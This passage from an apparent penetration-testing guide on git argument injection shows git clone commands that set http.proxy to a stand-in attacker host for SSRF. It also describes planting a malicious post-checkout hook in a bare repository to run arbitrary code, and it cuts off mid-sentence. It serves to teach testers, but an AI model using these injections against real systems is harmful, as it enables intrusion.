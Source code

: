 References:
- [Write up: RCE in GitHub Desktop < 2.9.4](https://github.com/Metnew/write-ups/tree/main/rce-github-desktop-2.9.3)

#### http.proxy and http.&lt;URL&gt;.proxy

`http.proxy` or `http.<URL>.proxy` override the HTTP proxy. You can use this to get SSRF:

```bash
$ git clone -c http.proxy=http://attacker-website.com -- "<REPO>" target_directory
$ git clone -c http.http://website.com/.proxy=http://attacker-website.com -- "<REPO>" target_directory
```

Pay attention to other `http.*` configs and `remote.<name>.proxy`, they can help to increase the impact.

References:
- [Report: Injection of `http.<url>.*` git config settings leading to SSRF](https://hackerone.com/reports/855276)
- [git-config docs: http.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-httpproxy)
- [git-config docs: remote.<name>.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-remoteltnamegtproxy)

### Abuse via .git/hooks/

Various files within [.git/hooks/](https://git-scm.com/docs/githooks) are [executed upon certain git operations](https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks). For example:

- `pre-commit` and `post-commit` are executed before and after a commit operation respectively
- `post-checkout` is executed after checkout operation
- `pre-push` is executed before a push operation

On filesystems that differentiate between executable and non-executable files, Hooks are only executed if the respective file is executable. Furthermore, hooks only execute given certain user interaction, such as upon performing a commit.

For instance, you can use bare repositories to deliver custom git hooks and execute arbitrary code:

```bash
# clone or create a repo
$ git clone "<REPO>" target_directory
$ cd target_directory
# add subproject as a bare repo
$ mkdir subproject
$ cd subproject
$ git init --bare
# add malicious hook
$ echo "#!/bin/sh" > hooks/post-checkout
$ echo "echo 'arbitrary code here'" >> hooks/post-checkout
# commit and push
```

If the vulnerable code executes the following bash commands against the prepared repository, it will trigger the custom hook execution and result in the arbitrary code being executed:
